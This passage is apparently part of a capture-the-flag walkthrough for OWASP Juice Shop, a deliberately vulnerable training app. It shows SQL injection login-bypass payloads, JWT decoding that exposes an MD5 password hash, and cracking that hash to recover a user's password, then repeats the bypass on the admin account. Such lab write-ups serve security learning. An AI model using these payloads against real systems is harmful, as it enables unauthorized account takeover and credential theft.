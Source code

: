 Now we can login to the account with SQL injection using that same payload
```text
mc.safesearch@juice-sh.op';--
```

When we observe the response, we can see that there is a JWT token sent back
```text
"authentication":{"token":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6OCwidXNlcm5hbWUiOiIiLCJlbWFpbCI6Im1jLnNhZmVzZWFyY2hAanVpY2Utc2gub3AiLCJwYXNzd29yZCI6ImIwM2Y0YjBiYThiNDU4ZmEwYWNkYzAyY2RiOTUzYmM4IiwiaXNBZG1pbiI6ZmFsc2UsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDIyLTAxLTA4IDAwOjEwOjE2LjU5NyArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDIyLTAxLTA4IDAwOjEwOjE2LjU5NyArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE2NDE2MDM0NTIsImV4cCI6MTY0MTYyMTQ1Mn0.Yd4m-F13f6lsA2Ns5NbaiIdSVnrNIWnvFmyVNiTbJ1HKwXo4djn1pvhWlGk5HQZzQDPgxeC2GosbYy6B0JW-7EOPPHqbd5-m5Xw2NJ_d9G0ydsewi4KkJPuJ7Rb2WuFBW5KhQ31c7qAlmjoKgw2ky5Id3M09vPRO6suTtPjR4xE","bid":6,"umail":"mc.safesearch@juice-sh.op"}}
```

Now, if we decode this token, 
```text
{
  "status": "success",
  "data": {
    "id": 8,
    "username": "",
    "email": "mc.safesearch@juice-sh.op",
    "password": "b03f4b0ba8b458fa0acdc02cdb953bc8",
    "isAdmin": false,
    "lastLoginIp": "0.0.0.0",
    "profileImage": "default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2022-01-08 00:10:16.597 +00:00",
    "updatedAt": "2022-01-08 00:10:16.597 +00:00",
    "deletedAt": null
  },
  "iat": 1641603452,
  "exp": 1641621452
}
```

It tells us the password, but it seems like it is hashed. My guess is that it is an MD5 hash
Now let's pass it to an online MD5 hash breaker and see what it thinks

And we have the password!
GG bois
```text
Mr. N00dles
```
Now we login, and we have solved the challenge!

## 06 Password Strength
For this challenge, I need to repeat basically the same thing I tried before, but with the admin account. First login with the payload
```text
admin@juice-sh.op';--
```
Observe the response and get the JWT Token. 
```text
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsImlzQWRtaW4iOnRydWUsImxhc3RMb2dpbklwIjoiMTkyLjE2OC4yNC4xMjgiLCJwcm9maWxlSW1hZ2UiOiJkZWZhdWx0LnN2ZyIsInRvdHBTZWNyZXQiOiIiLCJpc0FjdGl2ZSI6dHJ1ZSwiY3JlYXRlZEF0IjoiMjAyMi0wMS0wOCAwMDoxMDoxNi41OTUgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAyMi0wMS0wOCAwMDozODozMC44NTggKzAwOjAwIiwiZGVsZXRlZEF0IjpudWxsfSwiaWF0IjoxNjQxNjA0MjQ5LCJleHAiOjE2NDE2MjIyNDl9.pDMGvTWI5MzQsj7-o1lmcUW8xkwpZ8riftxLGHkyPS2CSQ5upuS7kdDro_rUavXo2vCha3Omjm15ywqlQ-rEDS9X2KH_tE_qBFyYuAyevX7bGSjEZu3m89A6EOX_sqRZVrnfJYncLrWxbnZy0srVLBz8EJOdEQtMlP26imNoGOM
```
